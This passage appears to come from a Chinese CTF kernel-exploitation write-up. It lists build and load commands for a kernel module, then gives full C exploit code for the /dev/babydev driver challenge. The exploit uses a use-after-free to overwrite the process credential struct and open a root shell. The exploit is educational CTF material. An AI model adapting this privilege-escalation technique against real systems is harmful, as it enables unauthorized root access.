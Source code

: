 1. make
2. sudo insmod calc_cred.ko
3. dmesg
4. sudo rmmod calc_cred
5. make clean

`====================================`

然后根据上面的思路写出exp：

```
//gcc exp.c -static -o exp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>
int main()
{
	int fd1 = open("/dev/babydev",2);
	int fd2 = open("/dev/babydev",2);

	ioctl(fd1,65537,0xa8);

	close(fd1);

	int pid = fork();

	if(pid < 0)
	{
		puts("[*] fork error!");
		exit(0);
	}

	else if (pid == 0)
	{
		int buf[9]={0};
        write(fd2,buf,28);
        system("/bin/sh");
	}

	else
	{
		wait(NULL);
	}

	return 0;

}
```
